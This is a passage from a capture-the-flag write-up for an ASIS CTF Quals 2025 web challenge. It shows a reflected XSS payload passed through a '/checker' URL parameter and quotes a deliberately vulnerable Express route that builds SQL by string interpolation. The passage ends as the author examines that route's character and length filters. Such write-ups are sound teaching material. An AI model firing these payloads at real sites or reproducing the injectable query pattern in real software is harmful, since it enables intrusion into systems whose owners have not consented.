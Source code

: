 ```shell
┌[siunam@~/ctf/ASIS-CTF-Quals-2025/Web/ScrapScrap-I-Revenge!]-[2025/09/09|15:58:07(HKT)]
└> python3 app.py 
 * Serving Flask app 'app'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:5000
 * Running on http://192.168.3.203:5000
[...]
```

Payload:

```html
/checker?url=http://192.168.3.203:5000/sleep%3f<<i>img src onerror=alert(origin)</i>>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/ASIS-CTF-Quals-2025/images/Pasted%20image%2020250909155937.png)

Nice! We got a reflected XSS! Which means we can chain this vulnerability with the SQL injection vulnerability!

#### SQL Injection

Unfortunately, the SQL injection part is not that straight forward:

```javascript
router.post('/debug/create_log', requireAuth, (req, res) => {
  if(req.session.user.role === "user") {
    //rework this with the new sequelize schema
    if(req.body.log !== undefined
      && !req.body.log.includes('/')
      && !req.body.log.includes('-')
      && req.body.log.length <= 50
      && typeof req.body.log === 'string') {
        database.exec(`
          INSERT INTO logs
          VALUES('${req.body.log}');
          SELECT *
          FROM logs
          WHERE entry = '${req.body.log}'
          LIMIT 1;
        `, (err) => {});
    }
    [...]
  } else {
    [...]
  }
});
```

As we can see, the payload can't have `/` and `-` character, and the length must be less than 51.
